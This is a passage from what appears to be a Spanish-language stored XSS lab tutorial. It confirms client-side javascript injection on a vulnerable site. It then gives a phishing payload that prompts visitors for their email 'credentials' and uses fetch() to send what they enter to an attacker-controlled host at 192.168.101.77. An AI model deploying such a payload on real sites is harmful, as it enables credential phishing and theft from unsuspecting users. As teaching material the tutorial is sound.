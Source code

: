 ![Montage finalizado con exito](/assets/imgs/cap_xss_6.png)

Como podemos observar aparece una ventana emergente.<br>
Esto nos confirma que tenemos la posibilidad de inyectar codigo javascript desde el lado del cliente.

## Ejemplo de Phishing Basico + XSS (correo)
En este ejemplo vamos a ver como podriamos interceptar el correo del usuario cuando este visite el articulo que acabamos de crear en la web vulnerable.

El payload que vamos a usar es este: 

```js
<script>
    var mail = prompt("Ingrese sus credenciales para seguir navegando", "example@example.com");
    if(mail == null || mail == ""){
      alert("Es necesario introducir un correo valido");
    }else{
      fetch("http://192.168.101.77/?mail=" + mail);
    }
</script>  
```

Enviamos el payload usando el formulario, el atacante buscaria llamar la atencion de algun usuario poniendo titulos y subtitulos llamativos como se muestra a continuacion:

